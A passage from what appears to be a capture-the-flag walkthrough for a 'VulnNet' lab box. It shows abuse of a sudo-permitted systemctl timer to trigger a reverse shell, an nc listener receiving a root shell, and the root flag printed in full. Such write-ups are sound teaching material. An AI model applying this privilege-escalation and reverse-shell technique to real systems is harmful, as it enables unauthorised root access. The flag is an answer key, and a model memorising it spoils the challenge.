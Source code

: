 Now, start a new listener on port `5555`, reload the services and start the `vulnnet-auto.timer` service:

~~~
$ sudo -u root /bin/systemctl daemon-reload
$ sudo -u root /bin/systemctl start vulnnet-auto.timer
~~~

## Root shell and flag

We now have a root shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.36.223] 40944
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls -la
total 100
drwx------ 18 root root 4096 Mar 21 13:52 .
drwxr-xr-x 23 root root 4096 Jan 24 16:05 ..
lrwxrwxrwx  1 root root    9 Jan 24 16:24 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  6 root root 4096 Mar 21 13:52 .cache
drwx------ 12 root root 4096 Mar 21 13:51 .config
drwx------  3 root root 4096 Mar 21 13:51 .dbus
drwx------  2 root root 4096 Mar 21 13:51 Desktop
-rw-r--r--  1 root root   41 Mar 21 13:51 .dmrc
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Documents
drwxr-xr-x  3 root root 4096 Mar 21 14:08 Downloads
drwx------  3 root root 4096 Mar 21 13:51 .gnupg
drwxr-xr-x  3 root root 4096 Jan 24 16:36 .local
drwx------  5 root root 4096 Mar 21 13:52 .mozilla
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Music
drwxr-xr-x  4 root root 4096 Jan 24 16:29 .npm
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Pictures
drwxr-xr-x  5 root root 4096 Jan 24 16:34 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Public
-rw-------  1 root root   38 Jan 24 17:11 root.txt
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Templates
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Videos
-rw-------  1 root root   57 Mar 21 13:51 .Xauthority
-rw-r--r--  1 root root   14 Feb 12  2018 .xscreensaver
-rw-------  1 root root 2386 Mar 21 13:51 .xsession-errors
# cat root.txt
THM{abea728f211b105a608a720a37adabf9}
~~~

Root flag: `THM{abea728f211b105a608a720a37adabf9}`
